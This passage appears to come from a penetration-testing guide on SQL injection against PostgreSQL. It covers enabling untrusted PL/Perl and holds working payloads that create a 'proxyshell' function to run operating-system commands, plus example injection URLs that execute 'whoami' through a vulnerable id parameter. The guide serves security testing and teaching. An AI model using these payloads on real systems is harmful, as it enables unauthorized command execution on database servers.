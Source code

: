 ##### Plperl

Plperl allows us to code PostgreSQL functions in perl. Normally, it is installed as a trusted language in order to disable runtime execution of operations that interact with the underlying operating system, such as `open`. By doing so, it's impossible to gain OS-level access. To successfully inject a proxyshell like function, we need to install the untrusted version from the `postgres` user, to avoid the so-called application mask filtering of trusted/untrusted operations.

- Check if PL/perl-untrusted has been enabled:
`SELECT count(*) FROM pg_language WHERE lanname='plperlu'`

- If not, assuming that sysadm has already installed the plperl package, try :
`CREATE LANGUAGE plperlu`

- If either of the above succeeded, create a proxy shell function:
`CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,“$_[0] |”);return join("",<FD>);' LANGUAGE plperlu`

- Have fun with:
`SELECT proxyshell(os command);`

###### Example

- Create a proxy shell function:
`/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu;`

- Run an OS Command:
`/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`

## References

- [Testing for SQL Injection](https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005))

- [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PostgreSQL Official Documentation](http://www.postgresql.org/docs/)
- [Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injection tool](http://sqlmap.org/)
